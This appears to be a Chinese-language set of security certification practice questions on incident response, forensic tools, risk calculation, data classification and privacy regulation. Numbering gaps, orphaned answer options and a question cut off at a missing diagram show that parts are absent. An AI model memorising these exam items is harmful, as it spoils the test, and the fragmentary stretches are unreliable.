90. Gurvinder 的企业数据中心位于 FEMA 确定为 100 年洪泛区的一部分的区域。他知道在任何一年里，他的 数据中心都可能完全被淹没并在水下，他希望确保他的组织知道如果发生这种情况该怎么办。他应该编写什么类型的计划？

- A. 一份业务运营连续性计划
- B. 一份业务连续性计划
- C. 一份洪水保险计划
- D. 一份灾难恢复计划

91. Frank 想确定他的计算机与远程服务器之间的网络延迟发生在哪里。以下哪个工具最适合识别所使用的路由以及哪些系统及时响应？

- A. ping
- B. traceroute
- C. pathping
- D. netcat


92. Derek 想查看可以为他的组织查询的 DNS 信息以及可能存在的域名和子域名。以下哪个工具可以通过单一工具同时提供 DNS 查询信息和关于主机和域名的 Google 搜索信息？
- A. `dnsenum`
- B. `dig`
- C. `host`
- D. `dnscat`

93. Jill 因其取证技能被要求执行数据恢复。她应该告诉请求执行数据恢复的人什么，才能最大程度地提高恢复意外删除的丢失文件的机会？
- A. 立即使用复位开关重新启动以创建丢失文件内存转储。
- B. 关闭“安全删除”，以便文件可以更容易恢复。
- C. 不要保存任何文件或对系统进行任何更改。
- D. 以上所有

94. 在网络杀伤链中，横向移动之后是什么阶段？
- A. 渗出
- B. 利用
- C. 反取证
- D. 权限提升

95. Veronica 已完成其组织事件响应计划的恢复阶段。她接下来应该进入哪个阶段？
- A. 准备
- B. 经验教训
- C. 恢复
- D. 文档记录

96. Michelle 被要求清理若干驱动器，以确保系统退役时敏感数据不会泄露。以下哪项不是清理硬盘的有效方法？
- A. 物理销毁
- B. 消磁
- C. 快速格式化驱动器
- D. 对驱动器进行零填充擦写

97. Bart 正在调查一起事件，需要识别 Microsoft Office 文档的创建者。他会在哪里找到那种信息？
- A. 在文件名中
- B. 在 Microsoft Office 日志文件中
- C. 在 Windows 应用程序日志中
- D. 在文件元数据中

98. Nathaniel 想允许 Chrome 通过 Windows Defender 防火墙。他需要进行什么类型的防火墙规则更改来允许此操作？
- A. 允许系统到互联网的 TCP 80 和 443 流量。
- B. 将 Chrome 添加到 Windows Defender 防火墙允许的应用程序中。
- C. 允许互联网到系统的 TCP 80 和 443 流量。
- D. 以上所有

99. Nathan 想对 C 类网络中的所有主机执行 `whois` 查询。以下哪个工具可以做到这一点，并且也可以以自动化方式发现不连续的 IP 块？
- A. `netcat`
- B. `dnsenum`
- C. `dig`
- D. `nslookup`

100. 哪个关键取证工具依赖于正确设置系统时钟才能正常工作？
- A. 磁盘哈希
- B. 时间线分析
- C. 取证磁盘采集
- D. 文件元数据分析

- C. 使用底层虚拟化环境对虚拟机进行快照
- D. 以上全部

**112.** James 有一份在进行事件响应演练时保存的 PCAP 文件。他想在配置新的检测规则后，确定入侵防御系统（IPS）能否检测到该攻击。哪个工具能帮助他使用 PCAP 文件进行测试？
- A. `hping`
- B. `tcpreplay`
- C. `tcpdump`
- D. Cuckoo

**113.** Windows 出现蓝屏死机时创建的是什么类型的文件？
- A. 安全日志
- B. 蓝色日志
- C. 转储文件
- D. `tcpdump` 文件

**114.** Ed 想要确保网络中受破坏的部分不会扩散到安全级别不同的其他部分。在攻击发生之前，他应该使用哪种缓解技术来帮助实现这一点？
- A. 隔离（Isolation）
- B. 分片（Fragmentation）
- C. 分层（Tiering）
- D. 分段（Segmentation）

**115.** Derek 在一次取证调查中获取了超过 20 块硬盘。为了确保每块硬盘都能随着时间的推移被正确跟踪和管理，哪个关键流程很重要？
- A. 为硬盘打标签
- B. 为每块硬盘拍照
- C. 为每块硬盘标注其易失性顺序
- D. 与每块硬盘所属的负责人进行面谈

**116.** 哪个术语描述了数字取证工件和镜像的所有权、保管链和获取过程？
- A. 电子发现（E-discovery）
- B. 来源（Provenance）
- C. 管辖权（Jurisdiction）
- D. 易失性（Volatility）

**117.** Elle 想从一台当前已开机的机器上获取实时内存（RAM）。以下哪种工具最适合获取系统内存中的内容？
- A. Autopsy
- B. The Volatility framework
- C. `dd`
- D. `netcat`

**118.** Randy 认为配置错误的防火墙正在阻止网络中某些系统发送到 Web 服务器的流量。他知道流量应该以 HTTPS 的形式进入他的 Web 服务器，并且他想检查以确保流量已收到。他可以用什么工具来验证他的猜想？
- A. `tracert`
- B. `Sn1per`
- C. `traceroute`
- D. Wireshark

**119.** Ryan 想为他的 Linux 系统实现一个灵活且可靠的远程日志记录环境。以下哪种工具最不适合这一要求？
- A. `rsyslog`
- B. `syslog`
- C. NXLog
- D. `syslog-ng`

**120.** Susan 一直在阅读有关一个新发现的漏洞利用程序的内容，她想要测试她的 IPS 规则，看看示例代码是否有效。为了使用该漏洞，她需要向 DHCP 服务器发送一个精心构造的 UDP 数据包。她可以使用什么工具来构造并发送这个测试性漏洞利用程序，以查看它是否会被检测到？
- A. `hping`
- B. `scanless`
- C. `curl`
- D. `pathping`

**121.** Valerie 想检查她的 Web 应用在 Linux 系统上是否发生了 SQL 注入攻击。她应该检查哪个日志文件来获取此类信息？
- A. 安全日志
- B. DNS 日志
- C. 认证日志
- D. Web 服务器日志

**122.** Olivia 的公司遭遇了数据泄露，并认为攻击者能够访问公司的 Web 服务器。有证据表明服务器证书的私钥已经暴露，而且证书的密码短语与私钥存放在同一目录中。Olivia 应该采取什么行动来处理这个问题？
- A. 吊销证书。
- B. 更改证书密码。
- C. 更改证书私钥。
- D. 更改证书公钥。

**123.** Jean 的公司正在准备与另一家公司进行诉讼，他们相信该公司对 Jean 的组织造成了损害。Jean 的律师应采取什么类型的法律行动，以确保公司保留与法律案件相关的文件和信息？
- A. 保管链要求函
- B. 电子发现通知
- C. 法律保全通知
- D. 易失性顺序

**124.** Cynthia 想要显示 Windows 系统上的所有活动连接。她可以运行什么命令来实现这一点？
- A. `route`
- B. `netstat -a`
- C. `netstat -c`
- D. `hping`

**125.** 哪种缓解措施会将恶意文件或应用程序放置在安全位置，以供将来审查或研究？
- A. 遏制（Containment）
- B. 隔离（Quarantine）
- C. 隔离（Isolation）
- D. 删除（Deletion）

**126.** Linux 交换空间通常使用什么位置？
- A. `\root\swap`
- B. `\etc\swap`
- C. `\proc\swap`
- D. 独立分区

**127.** Marco 正在进行一项取证调查，准备从他将要分析的计算机中取出八个不同的存储设备。在处理这些设备时，他应该使用什么来跟踪它们？
- A. 带有系统、序列号和其他信息的标签
- B. 驱动器的 MD5 校验和

**133.** 以下哪项不是通过运行 `arp` 命令可以从系统中收集到的信息？
- A. 本地系统的 IP 地址
- B. 最近解析的外部主机的 MAC 地址
- C. IP 地址是动态的还是静态的
- D. 最近解析的本地主机的 MAC 地址

**134.** `journalctl` 会为 Selah 提供访问哪个日志的权限？
- A. 事件日志
- B. 认证日志
- C. systemd 日志
- D. 认证日志（authentication journal）

**135.** 事件响应过程的哪个阶段通常涉及添加防火墙规则和修补系统以应对事件？
- A. 准备（Preparation）
- B. 根除（Eradication）
- C. 恢复（Recovery）
- D. 遏制（Containment）

**136.** Gary 想使用一个工具，以便能够在同一个脚本中通过 HTTP 和 HTTPS、SFTP 以及 TFTP 下载文件。他应该从以下列表中选择哪个命令行工具？
- A. `curl`
- B. `hping`
- C. `theHarvester`
- D. `nmap`

**137.** Tim 想使用组织的安全信息和事件管理（SIEM）设备来检查组织中的恶意软件感染状态。哪个 SIEM 仪表板能告诉他过去几天的恶意软件感染数量是否比正常情况多？
- A. 警报仪表板
- B. 传感器仪表板
- C. 趋势仪表板
- D. 带宽仪表板

**138.** Warren 正在收集有关事件的信息，并希望跟进一名最终用户提交的报告。当最终用户是初始事件报告的关键部分时，通常使用哪种数字取证技术？
- A. 电子邮件取证
- B. 访谈
- C. 磁盘取证
- D. 保管链

**139.** Aaron 想使用一个支持 Windows 和 Unix/Linux 系统以及多种日志格式的跨平台日志记录工具。他应该使用以下哪种工具来确保他的日志记录环境能够接收和处理这些日志？
- A. IPFIX
- B. NXLog
- C. `syslog`
- D. `journalctl`

**140.** 以下哪项不是常见的事件响应演练类型？
- A. 演习（Drills）
- B. 模拟（Simulations）
- C. 桌面推演（Tabletop）
- D. 走查（Walk-throughs）

**141.** Susan 需要对网络进行端口扫描。以下哪种工具不允许她执行此类扫描？
- A. `netstat`
- B. `netcat`
- C. `nmap`
- D. Nessus

**142.** 以下入侵分析钻石模型（Diamond Model of Intrusion Analysis）中，点 A 处应填入哪个术语？



**6.** 信用卡安全采用什么标准？
- A. GDPR
- B. COPPA
- C. PCI-DSS
- D. CIS

**7.** 你是公司的安全经理，需要降低员工串通盗用资金的风险。你应该实施以下哪项政策？
- A. 强制休假
- B. 整洁桌面
- C. 保密协议（NDA）
- D. 继续教育

**8.** 贵公司实施了整洁桌面政策后，你被要求每天晚上确保实体文件的安全。以下哪项是最佳解决方案？
- A. 部门门锁
- B. 每个办公桌的上锁文件柜和抽屉
- C. 感应卡
- D. 入职流程

**9.** 以下哪种技术试图预测威胁发生的可能性，并在发生损失时赋予相应的货币价值？
- A. 变更管理
- B. 漏洞评估
- C. 定性风险评估
- D. 定量风险评估

**10.** 以下哪种协议不如传统合同正式，但对所有相关方仍具有一定的重要性？
- A. SLA（服务水平协议）
- B. BPA（业务伙伴协议）
- C. ISA（接口服务协议）
- D. MOU（谅解备忘录）

**11.** 作为信用卡泄露事件响应的一部分，Sally 发现了证据表明她所在组织中的个人一直在积极窃取信用卡信息和个人身份信息（PII）。她报警并邀请他们参与调查。她做了什么？
- A. 升级了调查
- B. 公开通知
- C. 外包调查
- D. 对数据进行标记化

**12.** 您拥有一项价值为 $16,000 的资产，影响该资产的风险的暴露因子为 35%，年发生率为 75%。SLE 是多少？
- A. $5,600
- B. $5,000
- C. $4,200
- D. $3,000

**13.** 在一次会议中，您向管理层展示了网络上使用的访问控制列表。以下哪项控制是纠正性控制的示例？
- A. IDS
- B. 审计日志
- C. 反病毒软件
- D. 路由器

**14.** 您是新任安全管理员，发现贵公司缺乏威慑性控制措施。以下哪项您会安装以满足需求？
- A. 照明
- B. 运动传感器
- C. 隐藏式摄像机
- D. 反病毒扫描器

**15.** 您公司的安全策略包括系统测试和安全意识培训指南。以下哪种控制类型是此项？
- A. 检测型技术控制
- B. 预防型技术控制
- C. 检测型管理控制
- D. 预防型管理控制

**16.** 您是公司安全管理员，识别到一个安全风险。您决定继续执行当前安全计划。然而，您制定了应急计划以防安全风险发生。您展示的是以下哪种风险响应技术？
- A. 接受
- B. 转移
- C. 避免
- D. 缓解

**17.** 吉姆的公司在伊利诺伊州、印第安纳州和俄亥俄州运营设施，但总部位于伊利诺伊州。吉姆需要审查和处理其安全计划的一部分的哪些州法律？
- A. 所有美国州法律
- B. 伊利诺伊州
- C. 仅美国联邦法律
- D. 伊利诺伊州、印第安纳州和俄亥俄州的州法律

**18.** 您是公司的 IT 管理员，正在将新员工添加到组织的身份和访问管理系统中。以下哪项最能描述您正在执行的过程？
- A. 入职
- B. 离职
- C. 不利行动
- D. 工作轮换

**19.** 马克是当地银行分行的办公室经理。他希望确保当桌边员工一天中离开办公桌时，客户信息不会被泄露。马克会使用什么安全概念来缓解这一担忧？
- A. 清洁办公桌
- B. 背景调查
- C. 继续教育
- D. 工作轮换

**20.** 您是安全管理员，建议 Web 开发团队在用户注册账户的网页上包含 CAPTCHA。以下哪项控制是指此项？
- A. 威慑
- B. 检测
- C. 补偿
- D. 消磁

**21.** 以下哪项不是常见的安全策略类型？
- A. 可接受使用策略
- B. 社交媒体策略
- C. 密码策略
- D. 停车策略

**22.** 作为组织的 IT 安全官，您正在为公司研发文件服务器配置数据标签选项。普通用户可以将文档标记为承包商、公开或内部。应为公司商业机密分配哪个标签？
- A. 高
- B. 绝密
- C. 专有
- D. 低

**23.** 以下哪项不是物理安全控制？
- A. 运动探测器
- B. 围栏
- C. 反病毒软件
- D. 闭路电视 (CCTV)

**24.** 您的安全经理希望根据成本决定缓解哪些风险。这是什么的一个例子？
- A. 定量风险评估
- B. 定性风险评估
- C. 业务影响分析
- D. 威胁评估

**25.** 您公司已将专有流程外包给 Acme Corporation。由于技术问题，Acme 希望引入第三方供应商来帮助解决技术问题。在向第三方发送数据之前，Acme 必须考虑以下哪项？
- A. 此数据在发送给第三方供应商之前应进行加密。
- B. 这可能构成未经授权的数据共享。
- C. 这可能违反特权用户基于角色的意识培训。
- D. 这可能违反保密协议。

**26.** 以下哪项被视为检测控制？
- A. 闭路电视 (CCTV)
- B. 可接受使用策略
- C. 防火墙
- D. IPS

**27.** 以下哪项通常包含在 BPA 中？
- A. 详细说明客户与服务提供商之间期望的明确声明
- B. 具体功能或服务将在商定的性能水平上交付的协议
- C. 利润和损失的分享以及合作伙伴的增加或移除
- D. 与互联 IT 系统相关的安全要求

**28.** 您是公司的网络管理员，位于城郊的零售站点经理已多次投诉今年多次停电。分支经理要求提供补偿控制措施来克服停电。您会推荐什么补偿控制措施？
- A. 防火墙
- B. 安全警卫
- C. IDS
- D. 备用发电机

**29.** 詹姆斯是安全管理员，试图阻止对公司网络内桌面计算机的未经授权访问。他已配置计算机操作系统在 5 分钟无活动后锁定。詹姆斯实施了什么类型的安全控制？
- A. 预防性
- B. 纠正性
- C. 威慑性
- D. 检测性

**30.** 一名会计员工每 4 个月与另一名会计员工互换角色。这是什么的一个例子？
- A. 职责分离
- B. 强制休假
- C. 工作轮换
- D. 入职

**31.** 托尼的公司希望限制因客户数据而产生的风险。他们应实施什么做法以确保他们仅拥有业务所需的数据？
- A. 数据屏蔽
- B. 数据最小化
- C. 标记化
- D. 匿名化

**32.** 您公司的网站由互联网服务提供商托管。以下哪种风险响应技术正在使用？
- A. 风险规避
- B. 风险登记册
- C. 风险接受
- D. 风险缓解

**33.** 安全管理员正在审查公司的连续性计划，其中规定 RTO 为四小时，RPO 为一天。以下哪项是计划描述的？
- A. 系统应在一天内恢复，并且应至少保持四小时运行。
- B. 系统应在四小时内恢复，且不超过事件发生后一天。
- C. 系统应在一天内恢复，且最多丢失四小时的数据。
- D. 系统应在四小时内恢复，且最多丢失一天的数据。

**34.** 关于数据保留策略，以下哪项陈述是正确的？
- A. 法规要求财务交易存储七年。
- B. 员工必须在不使用时取走并锁好所有敏感和机密文件。
- C. 它描述了对网络所做配置更改的管理正式流程。
- D. 它是描述各方之间相互协议的法律文件。

**35.** 如何计算可能因威胁而发生的年度损失期望值 (ALE)？
- A. 暴露因子 (EF) / 单次损失期望值 (SLE)
- B. 单次损失期望值 (SLE) × 年发生率 (ARO)
- C. 资产价值 (AV) × 暴露因子 (EF)
- D. 单次损失期望值 (SLE) / 暴露因子 (EF)

**36.** 米歇尔被要求在系统安全流程中使用 Windows 10 的 CIS 基准。她将使用什么信息？


- A. `Windows 10` 在默认状态下有多安全的信息

- B. 保护 `Windows 10` 的推荐安全配置集

- C. `Windows 10` 系统的性能基准工具，包括网络速度和防火墙吞吐量

- D. 各制造商提供的 `Windows 10` 系统漏洞扫描数据

37. 以下哪项是预防控制的最佳示例？

- A. 数据备份

- B. 安全摄像机

- C. 门报警器

- D. 烟雾探测器

38. 您是公司安全管理员，识别到一个您内部技能无法解决的安全风险。您决定获取合同资源。承包商将负责处理和管理此安全风险。您展示的是以下哪种风险响应技术？

- A. 接受

- B. 缓解

- C. 转移

- D. 避免

39. 每位出差的销售人员都有一把电缆锁，在离开设备时锁定笔记本电脑。这适用于以下哪种控制？

- A. 管理性

- B. 补偿性

- C. 威慑性

- D. 预防性

40. 你是公司私有云的服务器管理员。为了向员工提供服务，你被指示在服务器中使用可靠的硬盘来托管虚拟环境。以下哪项最能描述硬盘的可靠性？

- A. `MTTR`（平均修复时间）

- B. `RPO`（恢复点目标）

- C. `MTBF`（平均无故障时间）

- D. `ALE`（年度损失预期）

41. 你所在组织的所有流量都通过单条互联网连接进行传输。以下哪项最能描述这种情况？

- A. 云计算

- B. 负载均衡

- C. 单点故障

- D. 虚拟化

42. 与定性风险分析相比，以下哪项最能描述定量风险分析的缺点？

- A. 定量风险分析需要详细的财务数据。

- B. 定量风险分析有时是主观的。

- C. 定量风险分析需要系统和基础设施方面的专业知识。

- D. 定量风险为基于风险的问题提供清晰的答案。

43. Leigh Ann 是当地一家社区银行的新任网络管理员。她研究了当前文件服务器的文件夹结构和权限。前任管理员没有妥善保护文件夹中的客户文档。Leigh Ann 分配合适的文件和文件夹权限，以确保只有被授权的员工才能访问这些数据。Leigh Ann 承担的是什么安全角色？

- A. 超级用户

- B. 数据所有者

- C. 用户

- D. 保管人

44. 对残余风险进行分类，对以下哪种风险应对技术最为重要？

- A. 风险缓解

- B. 风险接受

- C. 风险规避

- D. 风险转移

45. 你是IT经理，你的一个员工问谁负责分配数据标签。以下哪项负责分配数据标签？

- A. 所有者

- B. 保管人

51. 你是一名网络管理员，受命为公司新招聘的员工创建用户账户。这些员工被添加到身份与访问管理系统中，并被分配了移动设备。你正在执行什么流程？

- A. 离职流程

- B. 系统所有者

- C. 入职流程

- D. 高管用户

52. 职责分离属于什么类型的控制？

- A. 物理

- B. 操作

- C. 技术

- D. 补偿性

53. 以下哪项权利不包含在`GDPR`（通用数据保护条例）中？

- A. 访问权

- B. 被遗忘权

- C. 数据可携带权

- D. 匿名权

54. Nick 正在遵循美国国家标准与技术研究院（`NIST`）的风险管理框架（`RMF`），并且已经完成了准备和分类步骤。接下来是风险管理框架中的哪一步？

- A. 评估控制措施

- B. 实施控制措施

- C. 监控控制措施

- D. 选择控制措施

55. 为什么培训技术的多样性对安全项目管理员来说是一个重要概念？

- A. 它允许有多个资金来源。

- B. 每个人对培训的反应不同。

- C. 它避免了培训合规性中出现单点故障。

- D. 它是`PCI-DSS`合规所必需的。

56. Alyssa 被要求对她所在组织中过时软件的风险进行分类。她应该使用哪种风险分类类型？

- A. 内部

- B. 定量

- C. 定性

- D. 外部

57. 用什么术语来描述组织所有风险的列表，包括风险评级、修复方式、修复状态以及谁拥有或被分配负责该风险的信息？

- A. `SSAE`

- B. 风险登记册

- C. 风险表

- D. `DSS`

58. 以下哪项用于衡量系统或设备的可维护性？

- A. `MTBF`（平均无故障时间）

- B. `MTTF`（平均失效时间）

- C. `MTTR`（平均修复时间）

- D. `MTM`

59. Olivia 所在的公司最近经历了一次数据泄露，暴露了客户数据，包括他们的家庭住址、购物习惯、电子邮件地址和联系信息。Olivia 的公司是其所在领域的行业领导者，但也有强大的竞争对手。既然组织已经完成了事件响应流程，以下哪项影响不太可能发生？

- A. 身份盗窃

- B. 财务损失

- C. 声誉损失

- D. 可用性损失

60. Eric 为美国政府工作，需要对数据进行分类。以下哪项不是美国政府数据的常见分类类型？

- A. 绝密

- B. 秘密

- C. 机密

- D. 民用

61. 以下哪项不是常见的记录或编纂隐私实践的位置？

- A. 正式的隐私声明

- B. 产品的源代码

- C. 组织与客户协议的条款

- D. 以上都不是

62. 假名化和匿名化之间的关键区别是什么？

- A. 匿名化使用加密。

- B. 假名化需要额外的数据来重新识别数据主体。

- C. 匿名化可以使用哈希来逆转。

- D. 假名化使用随机令牌。

63. 什么策略明确说明了组织创建或使用的信息的所有权？

- A. 数据治理策略

- B. 信息安全策略

- C. 可接受使用策略

- D. 数据保留策略

64. Helen 所在的组织将为其整个客户群提供电话支持作为一项关键业务功能。她制定了一个计划，确保在发生灾难时恢复其组织的IP语音（`VoIP`）电话。她制定的是什么类型的计划？

- A. 灾难恢复计划

- B. `RPO`计划

- C. 功能恢复计划

- D. `MTBF`计划

65. Greg 拥有的数据被归类为健康信息，其组织将其用作公司人力资源数据的一部分。对于他公司的安全策略，以下哪项陈述是正确的？

- A. 健康信息必须加密。

- B. Greg 应该审查相关法律，以确保健康信息得到妥善处理。

- C. 公司被禁止存储健康信息，必须将健康信息外包给第三方。

- D. 以上所有

66. 控制风险适用于哪种类型的信息？

- A. 健康信息

- B. 个人身份信息（`PII`）

- C. 财务信息

- D. 知识产权

67. 如果发生包含`PII`的数据泄露，个人最可能经历哪种类型的影响？

- A. 知识产权盗窃

- B. 声誉损害

- C. 罚款

- D. 身份盗窃

68. Isaac 被要求编写其组织的安全策略。对于服务账户，通常制定什么策略？

- A. 它们只能发放给系统管理员。

- B. 它们必须使用多因素身份验证。

- C. 它们不能使用交互式登录。

- D. 以上所有

69. Nina 的任务是给每件进入她数据中心且成本超过500美元的新设备安装射频识别（`RFID`）标签。哪种类型的组织策略最有可能包含这种要求？

- A. 变更管理策略

- B. 事件响应策略

- C. 资产管理策略

- D. 可接受使用策略

70. Megan 正在查看她组织的数据中心网络图，如下图所示。对于图中的A点，她应该注意什么？



- A. 无线链路

- B. 冗余连接

- C. 有线链路

- D. 单点故障

- C. 定性风险评估

- D. 定量风险评估

77. 法规中的哪些关键要素（如欧盟（`EU`）的`GDPR`）促使组织将其纳入整体风险态势评估？

- A. 潜在罚款

- B. 其年度损失预期（`ALE`）

- C. 其恢复时间目标（`RTO`）

- D. 发生的可能性

78. 灾难恢复计划涵盖了处理灾难的哪些阶段？

- A. 灾难发生前该做什么

- B. 灾难发生期间该做什么

- C. 灾难发生后该做什么

- D. 以上所有

79. Naomi 所在的组织最近经历了信用卡信息泄露。经调查发现，她的组织无意中未完全符合`PCI-DSS`要求，且目前也不完全合规。她的组织最可能面临以下哪种处罚？

- A. 刑事指控

- B. 罚款

- C. 终止信用卡处理协议

- D. 以上所有

80. Alaina 希望在`COBIT`（信息及相关技术控制目标）、`FedRAMP`（联邦风险与授权管理计划）、`HIPAA`（1996年《健康保险携带与责任法案》）等标准之间，为云服务映射一组通用控制。她可以使用什么来加速这一过程？

- A. `CSA`的参考架构

- B. `ISO 27001`

- C. `CSA`的云控制矩阵

- D. `ISO 27002`

81. Gary 创建了一个应用程序，要求其组织中的新员工在培训中使用。该应用程序向他们展示钓鱼电子邮件的示例，并要求员工识别可疑的电子邮件及其原因。正确答案得分，错误答案扣分。这是什么类型的用户培训技术？

- A. 夺旗赛

- B. 游戏化

- C. 钓鱼演练

- D. 基于角色的培训

82. 哪项法律或法规要求组织设立`DPO`（数据保护官）？

- A. `FISMA`

- B. `COPPA`

- C. `PCI-DSS`

- D. `GDPR`

83. Susan所在的大学与其工程学院合作，为美国国防部开展绝密研究。最近发现的一起泄露事件表明，该工程学院已被一个高级持续性威胁行为者入侵长达一年多。Susan最应关注这次泄露的哪种后果？

- A. 恢复运营的成本

- B. 罚款

- C. 身份盗窃

- D. 知识产权窃取

84. 用什么术语来描述需要在灾难期间持续进行或在灾难发生后尽快恢复的功能？

- A. 单点故障

- B. 任务关键功能

- C. 恢复时间目标

- D. 核心恢复功能

85. 贵公司正考虑将邮件服务器迁移到托管公司。这将有助于降低本地站点的硬件和服务器管理员成本。以下哪份文件将正式说明可靠性以及未达到可靠性要求时的追索方式？

- A. 谅解备忘录（`MOU`）

- B. 服务级别协议（`SLA`）

- C. 互连安全协议（`ISA`）

- D. 业务伙伴协议（`BPA`）

86. Rick的组织提供了一个网站，允许用户创建账户，然后上传他们的艺术作品与其他用户分享。他担心发生数据泄露，希望在其处理流程中恰当地对数据进行分类。对于其组织收集和存储的数据，Rick最应使用以下哪种数据类型进行标记？

- A. 客户数据

- B. 个人身份信息（`PII`）

- C. 财务信息

- D. 健康信息

87. Jack正在进行风险评估，一名员工提到，公司拥有作为其主要产品组成部分的专用内部AI算法。Jack应将哪种风险确定为最可能影响这些算法的？

- A. 外部风险

- B. 内部风险

- C. 知识产权窃取

- D. 许可风险

88. Dan撰写了一项政策，禁止员工与同事、家人或其他人共享密码。他创建了哪种类型的凭据策略？

- A. 设备凭据策略

- B. 人员凭据策略

- C. 服务账户策略

- D. 管理账户策略

89. 风险严重性使用此处所示的公式计算。应将什么信息代入X？

风险严重性 = X * 影响

- A. 固有风险

- B. 平均修复时间（`MTTR`）

- C. 发生的可能性

- D. 恢复时间目标（`RTO`）

90. 资产价值是如何确定的？

- A. 物品的原始成本

- B. 物品的折旧成本

- C. 更换物品的成本

- D. 以上任何一项，具体取决于组织的偏好

91. 用于帮助识别关键系统的流程是什么？

- A. 业务影响分析（`BIA`）

- B. 平均故障间隔时间（`MTBF`）

- C. 恢复时间目标（`RTO`）

- D. `ICD`

92. Zarmeena希望将泄露风险转移给另一个组织。以下哪个选项可用于转移风险？

- A. 向管理层解释泄露总会发生。

- B. 将未来的泄露归咎于竞争对手。

- C. 将其组织的数据出售给另一个组织。

- D. 购买网络安全保险。

93. 以下哪项是服务账户的常见安全策略？

- A. 限制登录时段

- B. 禁止交互式登录

- C. 限制登录地点

- D. 实施频繁的密码过期

94. 泄露造成的财务成本属于风险计算中哪个组成部分的示例？

- A. 概率

- B. 风险严重性

- C. 影响

- D. 以上所有

95. 作为其组织寻找新总部选址工作的一部分，Sean查看了联邦紧急事务管理局（`FEMA`）针对他正在评估的潜在选址所发布的洪水地图。与灾难恢复规划相关的哪些流程包含此类行动？

- A. 业务影响分析（`BIA`）

- B. 现场风险评估

- C. 通过环境设计预防犯罪

- D. 业务连续性规划

96. Joanna想向正在考察的供应商索取审计报告，并计划查阅审计师对该供应商现有安全与隐私控制有效性的意见。她应索取哪种鉴证业务准则（`SSAE`）报告？

- A. `SSAE-18 SOC 1`，类型 2

- B. `SSAE-18 SOC 2`，类型 1

- C. `SSAE-18 SOC 1`，类型 1

- D. `SSAE-18 SOC 2`，类型 2

97. Jason为其组织创建了一份风险登记册，并定期根据全组织管理层和高层领导的反馈进行更新。这有什么作用？

- A. 降低固有风险。

- B. 提高风险意识。

- C. 降低残余风险。

- D. 增加风险偏好。

98. Laura知道她所在的州有法律，指导其组织在发生涉及个人身份信息（包括社会安全号码`SSN`）的泄露时应如何处理。如果她的泄露涉及`SSN`，根据州法律，她可能需要采取什么行动？

- A. 销毁所有社会安全号码。

- B. 重新分类所有受影响的数据。

- C. 公开发布泄露通知。

- D. 提供数据最小化计划。

105. Wayne估计其组织中的某个风险的`ARO`（年化发生率）为3。Wayne认为该事件多久会发生一次？

- A. 每三个月一次

- B. 每年三次

- C. 每三年一次

- D. 连续三年每年一次

106. Gurvinder正在评估灾难对其公司设施的风险，并希望在规划中恰当分类这些风险。以下哪项不属于自然灾害类型？

- A. 火灾

- B. 洪水

- C. 龙卷风

- D. 工业事故

107. Madhuri正在对其组织的所有数据进行分类，并希望正确分类组织主网站上对任何访问者都可用的信息。她应使用以下列表中的哪种数据分类？

- A. 敏感

- B. 机密

- C. 公开

- D. 关键

108. Elle在一家信用卡公司工作，该公司为世界各地的企业处理信用卡交易。她的公司在数据隐私方面扮演什么角色？

- A. 数据控制者

- B. 数据管理专员

- C. 数据保管人

- D. 数据处理者

109. Brian正在使用的网站显示了他的社会安全号码的一部分，并用星号替换其余数字，从而允许他验证最后四位数字。该网站正在使用哪种技术？

- A. 令牌化

- B. 哈希

- C. 加密

- D. 数据掩蔽

110. Mike想为其基础设施即服务（`IaaS`）环境寻找一套通用的安全与风险管理工具。以下哪个组织提供了可用于验证其设计的供应商中立参考架构？

- A. 互联网安全中心（`CIS`）

- B. 国际标准化组织（`ISO`）

- C. 云安全联盟

- D. 美国国家标准与技术研究院（`NIST`）

111. 锁属于哪种类型的控制？

- A. 管理控制

- B. 技术控制

- C. 物理控制

- D. 纠正性控制

112. Isaac发现其组织的财务会计软件配置错误，导致持续报告不正确数据。这属于哪种类型的风险？

- A. 固有风险

- B. 残余风险

- C. 控制风险

- D. 透明风险

113. 以下哪项不属于潜在的人为灾难类型？

- A. 火灾

- B. 石油泄漏

- C. 飓风

- D. 战争

114. Susan为美国政府工作，并发现其组织中存在一些需要一定保护的信息。如果这些信息未经授权被披露，将对国家安全造成可识别的损害。她应如何对这些数据进行分类？

- A. 绝密

- B. 秘密

- C. 机密

- D. 商业敏感信息

115. Ed担任其组织的数据管理专员，想要对其业务中使用的每个数据元素进行分类。他应如何对手机号码进行分类？

- A. 作为受保护的健康信息（`PHI`）

- B. 作为财务信息

- C. 作为个人身份信息（`PII`）

- D. 作为政府信息

116. Marcus希望确保，即使攻击者获得了其组织Web应用数据库的副本，也无法识别其客户。他想用替代值来保护客户的社会安全号码（`SSN`），该替代值可以在其他地方引用，以便他需要按`SSN`查找客户时使用。他应使用什么技术来实现这一目标？

- A. 加密

- B. 令牌化

- C. 数据屏蔽

- D. 数据清洗

117. 下列哪一项是在网站上包含隐私声明的最常见原因？

- A. 警告攻击者有关安全措施

- B. 避免诉讼

- C. 由于法规或法律

- D. 以上都不是

118. Nicole 确定其组织如何处理其收集的客户数据，并决定个人信息的处理方式和原因。Nicole 在其组织中扮演什么角色？

- A. 数据管理员

- B. 数据保管员

- C. 数据控制者

- D. 数据使用者

119. Pat 负责的虚拟机集群在其主要控制器上发生了重大故障。整个组织处于离线状态，客户无法访问其网站，而该网站是其主要业务。Pat 的组织经历了什么类型的灾难？

- A. `MRO` 灾难

- B. 内部灾难

- C. `RTO` 灾难

- D. 外部灾难

120. 在信息生命周期早期应采取什么重要步骤，以确保组织能够处理其收集的数据？

- A. 数据保留

- B. 数据分类

- C. 数据最小化

- D. 数据外泄

121. Kirk 的组织一直在遭受针对其主要网站的大规模拒绝服务（`DoS`）攻击。Kirk 与其互联网服务提供商签订合同以增加组织的带宽，并扩展网站的服务器池以处理比以往任何 `DoS` 攻击多得多的流量。他采用了何种类型的风险管理策略？

- A. 接受

- B. 规避

- C. 转移

- D. 缓解


**122.** Joanna 租用以托管其组织服务器的托管设施位于飓风区的洪泛区。哪种类型的风险最能描述 Joanna 及其他客户面临的风险？

- **A.** 多方风险

- **B.** 内部风险

- **C.** 遗留风险

- **D.** 知识产权盗窃风险

**123.** Natasha 的组织过去五年使用过的云服务将不再可用。Natasha 应为此服务规划供应商关系的哪个阶段？

- **A.** 准备服务谅解备忘录

- **B.** EOL 过渡流程

- **C.** 创建保密协议

- **D.** 遗嘱

**124.** Gary 想为其组织的 Linux 使用安全配置基准。以下哪个组织会提供一个有用且被广泛采用的基准供他使用？

- **A.** Microsoft

- **B.** NIST

- **C.** CIS

- **D.** 以上所有

